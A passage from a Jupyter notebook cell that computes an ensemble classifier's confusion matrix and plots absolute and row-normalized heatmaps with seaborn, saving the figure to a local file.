

✅ Ensemble confusion matrix rendered.


In [81]:
# ── Confusion Matrix ──────────────────────────────────────────────────────────

cm = confusion_matrix(y_test_raw, y_pred)
print(cm)

# Remove row 0 and column 0 for plotting
cm_plot = cm[1:, 1:]
class_names = CLASS_NAMES[1:]

# Safe normalization (avoids division by zero)
cm_norm = cm_plot.astype(float) / np.clip(cm_plot.sum(axis=1, keepdims=True), 1, None)

fig, axes = plt.subplots(1, 2, figsize=(18, 7))
fig.suptitle("Ensemble — Confusion Matrix", fontsize=14, fontweight="bold")

# ── Absolute counts ───────────────────────────────────────────────────────────
ax = axes[0]
sns.heatmap(
    cm_plot,
    annot=True,
    fmt="d",
    cmap="Blues",
    xticklabels=class_names,
    yticklabels=class_names,
    linewidths=0.5,
    ax=ax,
    cbar=True
)
ax.set_title("Absolute Counts")
ax.set_xlabel("Predicted Class")
ax.set_ylabel("True Class")
ax.tick_params(axis="x", rotation=30)
ax.tick_params(axis="y", rotation=0)

# ── Normalized (Recall per Class) ─────────────────────────────────────────────
ax = axes[1]
sns.heatmap(
    cm_norm,
    annot=True,
    fmt=".2%",
    cmap="RdYlGn",
    xticklabels=class_names,
    yticklabels=class_names,
    linewidths=0.5,
    vmin=0,
    vmax=1,
    ax=ax,
    cbar=True
)
ax.set_title("Row-Normalized (Recall per Class)")
ax.set_xlabel("Predicted Class")
ax.set_ylabel("True Class")
ax.tick_params(axis="x", rotation=30)
ax.tick_params(axis="y", rotation=0)

plt.tight_layout()
plt.savefig(r"D:\c4\results\ensemble_confusion_matrix.png", bbox_inches="tight", dpi=110)

plt.show()
print("✅ Ensemble confusion matrix rendered.")